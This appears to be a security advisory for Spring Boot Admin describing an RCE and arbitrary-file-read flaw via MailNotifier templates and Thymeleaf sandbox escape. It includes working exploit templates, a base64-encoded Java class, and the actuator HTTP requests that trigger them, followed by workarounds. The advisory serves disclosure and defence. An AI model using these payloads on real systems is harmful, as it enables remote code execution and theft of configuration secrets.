## Impact
All users who run Spring Boot Admin Server, having enabled MailNotifier and write access to environment variables via UI are possibly affected.

The vulnerability affects the product and version range：

```text
# 2023-07-05
spring-boot-admin <= 3.1.0
thymeleaf <= 3.1.1.RELEASE
```

## RCE POC
all the proof environment is provided from this github repository.

when you started the springboot-admin environment,then you can follow the steps as below to getshell:

first, write a html named poc3.html:

```html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
</head>
<body>

<tr
        th:with="getRuntimeMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('java.lang.Runtime',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'getRuntime' )}"
>
    <td>
        <a
                th:with="runtimeObj=${T(org.springframework.util.ReflectionUtils).invokeMethod(getRuntimeMethod, null)}"
        >
            <a
                    th:with="exeMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('java.lang.Runtime',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'exec', ''.getClass() )}"
            >
                <a
                        th:with="param2=${T(org.springframework.util.ReflectionUtils).invokeMethod(exeMethod, runtimeObj, 'calc' )
                }"
                        th:href="${param2}"
                ></a>
            </a>

        </a>
    </td>
</tr>

</body>
</html>
```

then put the poc3.html into your VPS,and start a HTTPServer which the spring-boot-admin app can access.



and then send this HTTP package to enable MailNotifier:

```text
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5163.147 Safari/537.36
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-SBA-REQUEST: true
Connection: close
Referer: http://127.0.0.1:8080/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="108", "Chromium";v="108", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Content-Length: 63

{"name":"spring.boot.admin.notify.mail.enabled","value":"true"}
```



send this HTTP package to modify the email template, which is our malicious html file's address.

```text
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5163.147 Safari/537.36
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-SBA-REQUEST: true
Connection: close
Referer: http://127.0.0.1:8080/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="108", "Chromium";v="108", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Content-Length: 91

{"name":"spring.boot.admin.notify.mail.template","value":"http://127.0.0.1:4578/poc3.html"}
```



send this HTTP package to refresh the modify:

```text
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5163.147 Safari/537.36
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-SBA-REQUEST: true
Connection: close
Referer: http://127.0.0.1:8080/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="108", "Chromium";v="108", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Content-Length: 2

{}
```



finally,send this HTTP package to the spring-boot-admin app to trigger offline notification,and you will getshell immediately.

```text
POST /instances HTTP/1.1
Accept: application/json
Content-Type: application/json
User-Agent: Java/17.0.6
Host: 127.0.0.1:8080
Content-Length: 178

{"name":"test","managementUrl":"http://127.0.0.1:1","healthUrl":"http://127.0.0.1:1","serviceUrl":"http://127.0.0.1:1","metadata":{"startup":"2024-09-04T14:49:12.6694287+08:00"}}
```



## Arbitrary-file-read POC
When you have configured mail notifications success,for example：



then you can configure the template attribute of MailNotifier to be a local file of the springboot-admin host or a file under the classpath of the springboot-admin app, and then modify the recipient of MailNotifier to be a malicious attacker. When an email notification is triggered, the malicious attacker will receive the corresponding template attribute files, resulting in arbitrary file reads.








if you modify the template attribute of MailNotifier to be a  file under the classpath of the springboot-admin app, you even can get the application.properties file.





## Vulnerability analysis
The reason for the vulnerability is that springboot-admin uses thymeleaf for HTML rendering, and thymeleaf has a sandbox bypass vulnerability. If thymeleaf renders a malicious HTML, RCE can be caused by using the thymeleaf sandbox to escape; at the same time, if the attacker can use the actuator to The template attribute of MailNotifier is changed to a remote html template, then springboot-admin will load malicious html from the attacker's server and use thymeleaf to render it, thus causing RCE; if the template attribute of MailNotifier is modified to the server's local file or classpath will cause arbitrary file reading;

The key positions of using thymeleaf to render HTML in springboot-admin are as follows:



If "this.template" is modified to a remote file, such as "http://xxx.xx/poc.html", then the html file will be loaded from the remote and rendered. With the sandbox escape vulnerability of thymeleaf, RCE can be performed;

The following are three thymeleaf sandbox escape pocs:

1. This poc applies to versions prior to JDK9:

```html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
</head>
<body>

<tr
        th:with="defineClassMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('org.springframework.cglib.core.ReflectUtils',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'defineClass', ''.getClass() ,''.getBytes().getClass(), T(org.springframework.util.ClassUtils).forName('java.lang.ClassLoader',T(org.springframework.util.ClassUtils).getDefaultClassLoader()) )}"
>
    <td>
        <a
                th:with="param2=${T(org.springframework.util.ReflectionUtils).invokeMethod(defineClassMethod, null,
                    'fun.pinger.Hack',
                    T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQAKgoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAoBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMSGFjazsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEACUhhY2suamF2YQwACgALBwAiDAAjACQBAARjYWxjDAAlACYBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJwEABEhhY2sBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgEAD2Z1bi9waW5nZXIvSGFjawEAEUxmdW4vcGluZ2VyL0hhY2s7ACEACAAJAAAAAAACAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAAwAOAAAADAABAAAABQAPACkAAAAIABEACwABAAwAAABmAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAwANAAAAFgAFAAAABwAJAAoADAAIAA0ACQAWAAsADgAAAAwAAQANAAkAEgATAAAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw=='),
                    new org.springframework.core.OverridingClassLoader(T(org.springframework.util.ClassUtils).getDefaultClassLoader()) )
                }"
                th:href="${param2}"
        ></a>
    </td>
</tr>

</body>
</html>
```

2. This POC applies to versions after JDK9:

```html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
</head>
<body>

<tr
        th:with="createMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('jdk.jshell.JShell',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'create' )}"
>
    <td>
        <a
                th:with="shellObj=${T(org.springframework.util.ReflectionUtils).invokeMethod(createMethod, null)}"
        >
            <a
                    th:with="evalMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('jdk.jshell.JShell',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'eval', ''.getClass() )}"
            >
                <a
                        th:with="param2=${T(org.springframework.util.ReflectionUtils).invokeMethod(evalMethod, shellObj,  new java.lang.String(T(org.springframework.util.Base64Utils).decodeFromString('amF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoImNhbGMiKQ==')))
                }"
                        th:href="${param2}"
                ></a>
            </a>

        </a>
    </td>
</tr>

</body>
</html>
```

3. This POC is applicable to all versions of JDK:

```html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
</head>
<body>

<tr
        th:with="getRuntimeMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('java.lang.Runtime',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'getRuntime' )}"
>
    <td>
        <a
                th:with="runtimeObj=${T(org.springframework.util.ReflectionUtils).invokeMethod(getRuntimeMethod, null)}"
        >
            <a
                    th:with="exeMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('java.lang.Runtime',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'exec', ''.getClass() )}"
            >
                <a
                        th:with="param2=${T(org.springframework.util.ReflectionUtils).invokeMethod(exeMethod, runtimeObj, 'calc' )
                }"
                        th:href="${param2}"
                ></a>
            </a>

        </a>
    </td>
</tr>

</body>
</html>
```

## Workarounds
- Disable any MailNotifier
- Disable write access (POST request) on `/env` actuator endpoint
- Limit the template attribute of MailNotifier to a few specific options, and avoid using the `http://` or `file:///` protocol